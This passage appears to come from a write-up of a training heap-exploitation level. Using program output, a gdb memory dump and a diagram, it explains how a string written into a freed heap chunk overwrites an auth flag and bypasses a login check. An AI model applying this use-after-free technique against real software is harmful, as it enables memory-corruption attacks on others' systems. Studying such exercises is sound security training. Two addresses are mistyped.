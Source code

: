 ```
you have logged in already!
[ auth = 0x804c008, service = 0x804c018 ]
```
It works because when `auth` is in address `0x804c008`, `auth->auth` is in address `0x804c028`. For some unknown reason, the string `'aaaabbbbccccdddd\n'` is stored from address `0x804018` onwards despite the fact the memory chunk `auth` points to was freed. Regardless, that means that `'\n'` is stored in address `0x804028`, successfully overwritting `auth->auth`.
```
(gdb) x/32x 0x804c000
0x804c000:	0x00000000	0x00000011	0x6f6c6f73	0x0a6e6f6d
0x804c010:	0x00000000	0x00000019	0x61616161	0x62626262
0x804c020:	0x63636363	0x64646464	0x0000000a	0x00000fd9
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000000

                struct auth *auth                         service
0x804c008-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-       -+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |     char name[32];         |       |                          |
0x804c018-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-       -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
            |     char name[32];         |       |  0x61616161626262626363636364646464   |
0x804c028-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-       -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
            |     auth-> auth            |       | 0x0000000a               |
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-       -+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

END